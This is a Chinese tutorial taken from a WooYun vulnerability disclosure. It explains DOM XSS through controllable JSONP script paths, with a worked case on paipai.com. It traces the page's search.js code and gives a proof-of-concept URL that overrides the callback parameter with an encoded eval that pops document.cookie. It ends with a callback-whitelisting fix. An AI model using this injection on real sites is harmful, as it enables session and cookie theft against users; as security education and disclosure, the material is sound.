





# 12\. Dom Xss 进阶 [路径 con]

> 来源：[12\. Dom Xss 进阶 [路径 con]](http://www.wooyun.org/bugs/wooyun-2010-016279)

## 简要描述

我不是萝莉 con,我是路径 con。

一些程序员会动态的加载 json 数据，同域的时候，可以使用 ajax；而有时候，数据所在域和当前页面所在域又不一致。所以需要跨域 请求。跨域请求数据的手段中，有一种叫做 jsonp。

用代码表示的话，就是 `somescript.src="http://otherdomain.com/xx?jsonp=callback"`

某些时候，程序员会在调用外部数据的时候带上可控的参数。 `somescript.src="http://otherdomain.com/xx?jsonp=callback&id="+id;` 如果这个 id 我们可控，将可能带来 XSS 问题。

## 详细说明

本次教程，就不像前面的一样，去细说操作过程了，前面的几次教程也基本将常用操作全部介绍到了。直接来看例子。

1\. 在扫描过程中，经常遇到下面的例子。



2\. 初看看，这种情况，似乎没有什么利用价值。

3\. 但是我们不难想象，如果这个地址是我们可控的话，一样会带来威胁。

地址的可控可以分为 3 个层面。

3.1 `script src="完全可控"` ,这种就简单了，直接将地址换为我们的 JS 地址

3.2 `script src="/path/xxx/[路径可控]/1.js"` 这种要利用的话，需要同域名下有可控的文件。可控文件又分为 2 种。

3.2.1 可以直接上传文本至同域名下，不一定要是 HTML 文件，需要上传点有过滤缺陷。

3.2.2 参数可控，利用可用的 json 接口。

最终变为 `script src="/path/xxx/.../yyy/xx.json?callback=alert(1)"`

3.3 `script src="/xxxx/json.php?callback=xxxx&param1=yyy&param2=[参数可控]"`

这种情况，和 3.2.2 类似，如果参数可控，且 json 的参数没有很好的过滤时。我们就有机可乘了。

4\. 本文以拍拍网一处 XSS 为例，来描述以上可能性。

扫描器扫到的点，见步骤 1 中的图。进一步，我们可以通过抓包的方式，看到页面在打开时，所加载的外部 JS 文件地址。

```
http://sse1.paipai.com/comm_json?callback=commentListCallBack&dtag=1&ac=1&cluster=1&sellquality=0&NewProp=&Property=256&PageNum=1&PageSize=48&OrderStyle=80&Address=&SaleType=1&degree=1&AuthType=2&BeginPrice=&EndPrice=&KeyWord=2012%20%D0%C2&OnlineState=2&Paytype=4&ranking=&sClassid='aaaaaaaa&t=1354854681 
```

我们打开这个 JSON，用扫描反射型的方式，可以测试出，callback, dtag 以及 ranking 可控。但均无法使用`<`, `>`，也就是说，这个 JSON 接口本身是无 XSS 风险的。 此外 dtag, 和 ranking 都在双引号里面，我们在后续无法进行利用，而 callback 则在最前面，比较好控制。 我们可以想象下，如果我们可以让这个页面调用：

```
http://sse1.paipai.com/comm_json?callback=alert(1); 
```

那么将会产生 XSS。

那么怎么让页面调用上面的情况呢？

4.1 直接控制 callback 参数，但是从实际情况来看，我们此处无法直接控制它，【失败】

4.2 将后面的参数, `param=xxx` 修改为 `param=xxx&callback=alert(1)` ，从而覆盖前面的 callback

5\. 上面说到的第 2 种方案，似乎可行。但是实际上还是有问题的。

譬如我们页面上的 type 参数，对应着 json 的 sclassid 参数。 我们访问以下地址：

```
http://bag.paipai.com/search_list.shtml?type=&callback=alert(1);&np=11&pro=256&searchtype=2&cs=0010000&keyword=&PTAG=20058.13.13 
```

其实很明显上面这样是不行的。。因为 `&` 本身就是参数分隔符。这样写 type 就为空了 可能很快就有人想到另外一个写法：`&` 写为 `%26`

```
http://bag.paipai.com/search_list.shtml?type=%26callback=alert(1);&np=11&pro=256&searchtype=2&cs=0010000&keyword=&PTAG=20058.13.13 
```

很好，但是实际上，你会发现，访问的 json 接口的参数也还是原封不动的 `%26`，而不是所希望的 `&`



6\. 为了看看参数是怎么从页面，传递到了 comm_json 这个接口上的。我们定位到以下代码。

```
http://static.paipaiimg.com/js/search.js?t=20121108 
```

```
function init() {
    var keyword = decodeURIComp($getQuery('keyword')), type = $getQuery('type'),
    searchtype = $getQuery('searchtype'); 
    option.keyword = keyword; option.classId = type;
    option.searchType = searchtype || option.searchType; 
    option.beginPrice = $getQuery('bp');
    option.endPrice = $getQuery('ep');
    option.NewProp = $getQuery('np') || $getQuery('newprop'); 
    option.property = $getQuery('pro') || option.property; 
    option.cid = $getQuery('cid');
    option.Paytype = $getQuery('pt') || option.Paytype; 
    option.hongbaoKeyword = $getQuery('hb');
    option.conditionStatus = $getQuery('cs') || option.conditionStatus; 
    option.showType = $getQuery('show') || option.showType;
    option.mode = $getQuery('mode') || option.mode; 
    option.address = decodeURIComp($getQuery('adr'));
    option.orderStyle = $getQuery('os') || option.orderStyle || 80; 
    option.hideKeyword = $getQuery('hkwd') == "true" ? true: false; 
    option.ptag.currentPage = $getQuery('ptag') || $getQuery('PTAG'); 
    var pageIndex = $getQuery('pi'),
    pageSize = $getQuery('ps');
    option.pageIndex = (pageIndex && $isPInt(pageIndex)) ? pageIndex * 1: option.pageIndex; 
    option.pageSize = (pageSize && $isPInt(pageSize)) ? pageSize * 1: option.pageSize;
}; 
```

在这个文件里，我们很容易的看出，当前页面参数和 json 参数的对应关系 `option.JSON 参数=$getQuery("页面参数")`

7\. 一个函数让我眼前一亮啊，`decodeURIComp`。。也就是说，传入的 keyword，会解码一次。

也就是说，如果我们 `keyword=%26callback=alert(1);` decodeURIComp 就会变为 `&callback=alert(1);` 为了证明我们的想法：我们直接写利用代码。注意 `keyword=`那一部分

```
http://bag.paipai.com/search_list.shtml?type=213280&np=11&pro=256&searchtype=2&cs=0010000&keyword=%26callback=eval(St ring.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));void&PTAG=20058.13.13 
```

8\. 看效果：弹了吧



抓包可以看到，被动态加载的 keyword 参数，我们在后面插入了一个 callback，覆盖了前面的 callback



同样，看到返回的 comm_json 的内容



## 修复方案

1\. 也可对 jsonp 接口的 callback 参数进行更加严格的字符控制，一般的 callback，只需要允许，字母，数字+下划线即可。